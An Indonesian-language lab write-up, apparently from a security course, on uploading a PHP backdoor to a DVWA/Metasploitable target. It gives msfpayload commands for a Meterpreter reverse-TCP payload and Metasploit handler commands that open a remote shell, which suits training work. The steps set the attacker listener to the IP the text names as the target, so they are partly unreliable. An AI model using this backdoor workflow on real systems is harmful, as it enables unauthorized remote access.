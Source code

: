 # DVWA | Lesson 8
## Konfigurasi

###{ Upload PHP Backdoor Payload }

pada lesson 8, kami menggunakan metasploid dan backtrack.

- pertama-tama agar backtrack dan metasploit mendapat IP, buka vm -> klik kanan -> setting -> network -> pilih bridge adapter

![alt text](./backtrack.png)
![alt text](./metasploit.png)

Alamat target DVWA (metasploitable) 
`http://10.151.34.170`

Alamat penyerang (backtrack)
`http://10.151.34.160`


## Skenario
![alt text](./1.png)
- start metasploit dan backtrack yang sudah dikonfigurasi

- log in backtrack dan metasploitable
- membuat direktori backdoor, membuat msfpayload

    `mkdir -p /root/backdoor`
    `cd /root/backdoor`
    `msfpayload php/meterpreter/reverse_tcp LHOST=10.151.34.170 ``LPORT=4444 R > PHONE_HOME.php`
    `ls -l PHONE_HOME.php`

![alt text](./2.png)
![alt text](./3.png)
 - menghapus tanda pagar yang ada di phone_home.php
 - keluar menggunakan command :
    `:q!' -> enter
![alt text](./4.png)

- menjalankan command : 
- LHOST disesuaikan dengan IP metasploit

    `use exploit/multi/handler`
    `set PAYLOAD php/meterpreter/reverse_tcp`
   ` set LHOST 10.151.34.170`
    `set LPORT 4444`
    `exploit`
    `Continue to Next Section`

![alt text](./6.png)
![alt text](./7.png)
![alt text](./8.png)
![alt text](./9.png)
![alt text](./10.png)
![alt text](./11.png)
![alt text](./12.png)
![alt text](./13.png)
![alt text](./14.png)
![alt text](./15.png)




## Hasil
kita bisa mengcrack password 
![alt text](./sukses.png)